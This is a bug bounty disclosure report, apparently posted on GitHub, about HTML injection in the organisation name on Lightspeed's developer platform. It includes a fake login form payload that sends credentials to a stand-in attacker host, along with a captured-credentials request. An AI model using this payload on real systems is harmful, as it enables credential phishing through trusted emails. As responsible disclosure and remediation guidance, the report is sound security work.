









 
## Target
 
[Lightspeed Retail](https://www.lightspeedhq.com/) is a cloud-based point-of-sale (POS) and e-commerce platform used by retailers worldwide to manage inventory, sales, and payments. Lightspeed also exposes a **Developer Platform**, where businesses and partners can create "organisations" to manage API integrations and invite team members to collaborate on them.
 
Lightspeed runs a public bug bounty program on **Bugcrowd** ([lightspeed-retail](https://bugcrowd.com/lightspeed-retail)), rewarding researchers for responsibly disclosed vulnerabilities across its products. The in-scope target for this report was `developers.retail.lightspeed.app`, part of the **Lightspeed Retail X-Series** scope. This report was submitted through that program and triaged as valid with a **P4** priority (low severity, HTML Injection via email), which falls within Bugcrowd's reward range of **$250 - $500** for this program.


 
## Summary
 
The "Organisation Name" field (set when creating an organisation, editable from the Details tab) is not sanitized or output-encoded before being rendered in:
 
1. The **"You're invited to join an organisation"** invitation email sent to new members.
2. The organisation's own UI (**People** tab, **Details** tab).

This allows an attacker to inject arbitrary HTML, including a fake login form, that gets delivered directly to a victim's inbox from a legitimate Lightspeed sender address, enabling credential phishing with no additional user interaction (no suspicious link to click).
 
## Steps to Reproduce
 
1. Create a new organisation on the Lightspeed Developer Platform.
2. Set the Organisation Name to:
   
   ```html
   <h1>HTMLI</h1>
   ```

   
4. Invite a member (**People** tab → **Invite Developer**).
5. Observe the invitation email received: the payload is rendered as live HTML (the `<h1>` tag), confirming there is no output encoding.





7. Set the Organisation Name to a full fake login form payload:
   
   ```html
   LogIn first<form action="https://<ATTACKER>.oast.fun/proof" method="POST">
   <input placeholder="Email"><input type="password" placeholder="Password">
   <input type="hidden" name="test" value="lightspeed-poc"><button>Login</button></form>
   ```



8. Re-send/trigger the invitation email. The email renders a convincing fake "Login" form under the legitimate Lightspeed branding and sender address.



10. As a test, fill in the fake form with dummy credentials and submit.





12. Observe the credentials arriving in plaintext via a GET request at the attacker-controlled endpoint:

   ```
   GET /creds?email=Pepe%40gmail.com&pass=papapapa
   ```



11. The same unsanitized payload also persists and renders in the platform's own UI, under the **People** and **Details** tabs.
    
## Impact
 
- **Phishing via a trusted channel**: attacker-controlled HTML is delivered inside an official Lightspeed email to any user invited to an attacker-created organisation, making the lure highly credible (correct sender, correct branding, no suspicious domain visible at first glance).
- **Credential harvesting demonstrated**: the PoC form captures email/password and exfiltrates them to an external, attacker-controlled server.
- **Stored injection in the platform UI**: the payload persists and renders in multiple tabs (People, Details) of the Developer Platform, affecting anyone with access to view that organisation.

## Suggested Remediation
 
- Sanitize/validate the Organisation Name field server-side on input (restrict to a safe charset, e.g. alphanumeric plus limited punctuation, with a reasonable length cap).
- Apply proper output encoding (HTML-entity encoding) wherever the name is rendered, in the email template engine and in the frontend, rather than relying on input validation alone (defense in depth).
- Add/verify a strict Content-Security-Policy on the platform UI to mitigate any residual injection risk.
## Timeline
 
- Reported via Bugcrowd: triaged, validated, and classified as **P4** ($250 – $500 bounty range).
---
 
*Reported responsibly through Lightspeed's public program on Bugcrowd. Details shared here with program consent, per Bugcrowd's standard disclosure terms.*
